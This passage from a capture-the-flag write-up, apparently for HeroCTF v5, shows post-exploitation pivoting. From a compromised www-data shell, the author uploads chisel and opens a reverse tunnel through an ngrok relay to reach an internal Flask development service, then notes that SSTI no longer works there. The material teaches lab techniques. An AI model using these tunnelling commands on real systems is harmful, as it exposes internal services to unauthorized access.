 To access the development one, we must need to do port forwarding.

**To do so, I'll use `chisel`:**
```shell
(local) pwncat$ upload /opt/chisel/chiselx64
./chiselx64 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 8.1/8.1 MB • 3.3 MB/s • 0:00:00
[23:30:16] uploaded 8.08MiB in 9.85 seconds                                                    upload.py:76
(local) pwncat$                                                                                            
(remote) www-data@flask:/tmp$ chmod +x chiselx64 
```

**Reverse port fowarding in server:**
```shell
┌[siunam♥earth]-(/opt/chisel)-[2023.05.13|23:33:20(HKT)]
└> ./chiselx64 server -p 4444 --reverse
2023/05/13 23:33:23 server: Reverse tunnelling enabled
2023/05/13 23:33:23 server: Fingerprint e64LBwv+C0Ou8eG0p91ZpOmnV58zy7yJQ+QVSwfpDgI=
2023/05/13 23:33:23 server: Listening on http://0.0.0.0:4444
```

**Connect to the server from the client:**
```shell
(remote) www-data@flask:/tmp$ ./chiselx64 client 0.tcp.ap.ngrok.io:18937 R:5001:127.0.0.1:5000&
[1] 106
2023/05/13 15:47:59 client: Connecting to ws://0.tcp.ap.ngrok.io:18937
```

**Now we can visit the development one in `localhost:5001`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513233530.png)

**After some testing, the 404 and admin page doesn't vulnerable to SSTI anymore:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/HeroCTF-v5/images/Pasted%20image%2020230513233708.png)
